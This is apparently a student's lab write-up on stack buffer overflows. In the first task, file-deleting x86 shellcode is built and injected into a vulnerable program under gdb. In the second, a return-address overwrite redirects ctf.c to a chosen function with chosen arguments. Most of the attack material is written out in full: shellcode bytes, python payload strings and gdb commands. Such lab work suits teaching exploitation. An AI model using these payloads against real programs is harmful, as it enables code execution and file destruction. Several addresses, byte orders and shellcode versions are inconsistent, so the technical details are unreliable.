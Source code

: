 *Name: Dinh Thi Thanh Vy*
*ID: 22110093*

# Lab 2: 
---
## Task 1: Inject code to delete file
**Source code: .asm file**
![alt text](./image/image-11.png)

**Run virtual environment by docker file**

![alt text](./image/image-12.png)

**Run file asm and get the shellcode**
Run: `nasm -g -f elf file_del.asm`; `ld -m elf_i386 -o file_del file_del.o`
Get shellcode: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`
![alt text](./image/image-13.png)
- We have the shellcode for file_del file as follows:
`\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`
--> We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**
![alt text](./image/image-14.png)

- Shell code: `36 bytes`
- Return address: `4 bytes`
--> placement code: `32 bytes`
Here, we will use the vuln.c program to trigger a buffer overflow

**Connect to gdb**
![alt text](./image/image-15.png)
- Break in this position to see the change
`b *0x0804846b`

- Run the program by using command:
>r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-16.png)
--> We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- `0x00` because it marks the end of a string. 
- `0x09` because it's the tab character and would split the argument. 
- `0x0a` because it's the newline character and would also terminate the string.

Additionally, `0x0a` has a decimal value of 10, and upon reviewing the assembly code, we find:
![alt text](./image/image-17.png)

- Change file asm to this:
![alt text](./image/image-20.png)

- Get the shellcode again, we get
`\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`

![alt text](./image/image-19.png)

- For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to  prevent string termination and to identify the position of the return frame.

>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x**0f**'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-22.png)

At this point, the program will likely report an error because it cannot find the address `0xffffffff`. 

- We need to set `0x0c` to `0x00` at the address `0xffffd66b` by using command: 
`set {unsigned char} 0xffffd66b = 0x00`

- we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 
`set *0xffffd69c = 0xffffd658`

**The result will be:**
![alt text](./image/image-23.png)

**Continue runing the program to test out**

![alt text](./image/image-24.png)
- Dummyfile is still here. Look back at the assembly code!
`objdump -d file_del`

![alt text](./image/image-25.png)

As we can see, the dummyfile is **start from** `0xffffd672` **not from** `0x080407a` in C program!
- We need to set 0xffffd651 to point at that using command: 
`set *0xffffd661 = 0xffffd672`
![alt text](./image/image-26.png)
- continue running the program 
![alt text](./image/image-27.png)

-->Dummyfile is deleted. We've done.


## Task 2: Conduct attack on ctf.c
**Source code:**
![alt text](./image/image-30.png)

**Summarizing**
-->we need to find the address of the myfunc function and overwrite the Return Address of the vulnerable function's stack frame with this address:
`p=0x04081211; q=0x44644262`
`(buf[100] + ebp(4) + ReturnA(rewrite by the myfunc's address) + s + p + q)`
= `104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)`
**Run the virtual environment by docker file**
![alt text](./image/image-32.png)
**Debug ctf.c and create ctf.out file:**
`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2`
![alt text](./image/image-32.png)
**Get the myfunc's address by this command:**
`objdump -d ctf.out|grep myfunc`
![alt text](./image/image-33.png)
--> So we obtain the address of the myfunc funtion: `0804851b`

**Connect gdb and run by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`
![alt text](./image/image-34.png)
--> It's not understand and stop running with the debug `0x61616161 in ??`
--> We need to set the exit function address in the Return Address of myfunc to return and continue running to get the value of variables p and q

**Get the exit's address**
`objdump -d ctf.out|grep exit`
![alt text](./image/image-35.png)
--> So we obtain the address of the exit: `080483e0`

**Connect gdb and run again by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`
![alt text](./image/image-36.png)
--> We've done this lab
**Stack frame:**
![alt text](./image/image-29.png)
